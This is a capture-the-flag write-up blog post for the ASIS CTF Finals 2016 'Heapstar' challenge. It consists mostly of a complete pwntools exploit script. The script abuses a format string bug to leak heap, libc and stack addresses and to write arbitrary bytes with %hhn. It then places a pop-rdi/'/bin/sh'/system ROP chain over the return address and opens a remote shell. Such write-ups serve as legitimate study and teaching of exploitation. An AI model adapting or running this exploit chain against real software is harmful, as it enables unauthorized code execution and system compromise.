```yaml
---
layout: post
alias: "/blog/2016/09/12/asis-ctf-finals-2016-heapstar/"
date: "2016-09-12T02:27:02+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


# ASIS CTF Finals 2016: Heapstar

Not difficult. It seems that I solved with non-expected solution (because I didn't use the `hp*` and `list*` function), but I like this.

## solution

There is a format string bug, but the writable buffer is on the heap.
We can rewrite only the places whose address is on the stack.
There are the `argv` and `argv[0]`.
I used `argv` to modify the least byte of `argv[0]`, `argv[0]` to construct a payload on somewhere of stack, and the payload to rewrite the return address.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='heapstar.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1337, type=int)
parser.add_argument('--no-echo', action='store_true')
args = parser.parse_args()
context.arch = 'x86_64'
# context.log_level = 'debug'

elf = ELF('./heapstar')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

p = remote(args.host, args.port)
# p = process('./heapstar')
# args.no_echo = True

def cmd(c, s=None):
    p.recvuntil('>> ')
    p.sendline(c)
    if not args.no_echo:
        assert p.recv(len(c) + 2) == c + '\r\n'
    assert (c == 'i') == (s is not None)
    if c == 'i':
        if not args.no_echo:
            assert p.recv(6) == 'Data: '
        p.sendline(s)
        if not args.no_echo:
            assert p.recv(len(s + '\r\n')) == s + '\r\n'
    if c == 'p':
        s = p.recvuntil('>> ', timeout=1)
        if s:
            p.unrecv('>> ')
            return s[: -3 ]
        else:
            return ''

def fsa(s):
    log.info('format string attack: %s', repr(s))
    cmd('c')
    cmd('i', s)
    s = cmd('p')
    log.info('    =>  %s', repr(s))
    return s

# leak addresses
heap_base = int(fsa('%19$p'), 16) - 0x10
log.info('heap_base: %#x', heap_base)
libc_start_main = int(fsa('%21$p'), 16) - 240 # %21$s: <__libc_start_main+240>
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)
argv = int(fsa('%23$p'), 16) # %23$s: argv (char **)
log.info('argv: %#x', argv)
argv_0 = int(fsa('%49$p'), 16) # %49$s: argv[0] (char *)
log.info('argv[0]: %#x', argv_0)

# prepare buffer
fsa('%23$hhn')
k = (argv_0 - argv_0 % 0x100 - argv) // 8 + 49
log.info('k: %d', k) # %k$p: argv[0][0] (char[8])
def seek(i):
    if i == 0:
        i = 256
    fsa('%{}c%23$hhn'.format(i))
def putc(c):
    c = ord(c)
    if c == 0:
        c = 256
    fsa('%{}c%49$hhn'.format(c))
def puts(s):
    for i, c in enumerate(s):
        seek(i)
        putc(c) # write char by char

# writing test
puts('AAAABBBB\0')
seek(0)
assert fsa('%49$s') == 'AAAABBBB'
assert int(fsa('%{}$p'.format(k)), 16) == u64('AAAABBBB')

# do rop
def puts2(addr, s):
    payload = ''
    for i in range(len(s)):
        payload += p64(addr + i)
    puts(payload) # write addresses to write on
    l = 0
    payload = ''
    for i, c in enumerate(s):
        if ord(c) != l:
            payload += '%{}c'.format((ord(c) - l) % 256)
        payload += '%{}$hhn'.format(k + i)
        l = ord(c)
    fsa(payload)
pop_rdi_ret = ROP(elf).find_gadget(['pop rdi']).address
bin_sh = libc_base + next(libc.search('/bin/sh\0'))
system = libc_base + libc.symbols['system']
stack = argv - 0x160 # top at printf
chain = ''.join([ p64(x) for x in [ pop_rdi_ret, bin_sh, system ] ])
puts2(stack, chain)

time.sleep(1)
p.sendline('id')
p.interactive()
```
